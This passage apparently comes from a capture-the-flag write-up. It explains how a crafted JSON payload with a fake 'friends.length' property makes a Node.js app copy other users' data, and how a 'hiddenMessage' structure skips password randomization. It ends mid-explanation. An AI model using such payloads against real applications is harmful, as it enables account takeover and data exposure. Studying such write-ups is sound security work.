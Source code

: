 More specifically, the vulnerability lies in:

```js
if (user["data"]["friends"]) {
  const friends = user["data"]["friends"];
  for (i = 0; i < friends.length; i++) {
    if (!friends[i]) {
      friends[i] = usersArr[i];
    }
  }
}
```

If `friends.length` is set to 3 and the `friends` array is empty, the `if (!friends[i])` condition will populate `friends[i]` with `usersArr[i]`. This behavior can be exploited by crafting a malicious payload.

Additionally, the application uses `crypto.randomBytes` to randomize the password:

```js
user["data"]["password"] = crypto.randomBytes(16).toString("hex");
```

To bypass this, we can introduce a structure that causes the code to crash or skip execution, such as:

```json
"data": {
    "hiddenMessage": {
        "1": ""
    }
}
```

This prevents the randomization of the password.

## Exploit Construction

The payload leverages the `Objectified` structure to manipulate the `friends` array and bypass the password randomization. The final crafted payload looks like this:

```json
"data": {
    "custom": "",
    "author": {
        "name": ""
    },
    "friends": {
      "length": 3,
    },
    "hiddenMessage": {
        "1": ""
    }
}
```

Since the application uses `#` as the field identifier, the payload is converted to:
